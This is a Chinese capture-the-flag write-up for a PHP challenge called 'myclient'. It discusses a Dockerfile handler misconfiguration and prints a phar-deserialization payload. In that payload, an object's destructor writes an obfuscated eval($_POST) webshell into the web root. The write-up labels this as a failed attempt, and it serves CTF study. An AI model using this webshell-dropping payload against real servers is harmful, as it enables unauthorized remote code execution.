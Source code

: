 ## myclient

> http://124.71.205.170:10047
>
> 远程的环境的/tmp是固定的，不需要sql注入，/tmp目录每五分钟清理一次

这个index.php很难不让人有既视感，详情参见->[TQLCTF-SQL_TEST出题笔记](https://igml.top/2022/02/20/TQLCTF2022/)

对比两道题目的源码，有以下几个地方不一样（突破点）：

- 根本没有初始化数据库（所以不用注库或表），只有一个初始账号

- Dockerfile中有这样的设置

```dockerfile
RUN echo "\nSetHandler application/x-httpd-php\n" >> /etc/apache2/apache2.conf
RUN echo "\nLoadModule php7_module modules/libphp7.so\n" >> /etc/apache2/apache2.conf
```

在可访问到的web目录下不用.php系列后缀也可以被解析为php了，并且手动启用libphp7的模块用来支持php7

- 没有pop+phar的点，但同样必须RCE

相同的地方是都设了secret_file_priv到/tmp下一个临时目录，和本地的是一样的（所以提升不用注 笑死）

{{% spoiler "失败的尝试" %}}

缺少的框架pop我们可以换成原生类，比如原生类SplFileObject写文件；另外再把MYSQLI_SERVER_PUBLIC_KEY的值改为目标环境下的29

初步payload

```php
<?php
define("EV", "eva"."l");
define("GETCONT", "fil"."e_get_contents");
define("D",(GETCONT)('/var/www/html/index.php')[10]);
define("SHELL","<?php ".EV."(".D."_POST['a']);");
echo SHELL;

class TestObject {
    public function __destruct(){
        $file = new SplFileObject("/var/www/html/res", "w");	// 被反序列化后创建webshell
        $written = $file->fwrite(SHELL);
    }
}

$phar = new Phar('phar.phar');
$phar -> startBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');   // 设置stub，增加gif文件头
$phar -> addFromString('test.txt','test');  // 添加要压缩的文件
$object = new TestObject();
$object -> data = 'wuhu';
$phar -> setMetadata($object);  // 将自定义meta-data存入manifest
$phar -> stopBuffering();

// for test
file_get_contents('phar:///tmp/e10adc3949ba59abbe56e057f20f883e/phar.phar');	// 顺利的话会在/var/www/html/res有个webshell
```
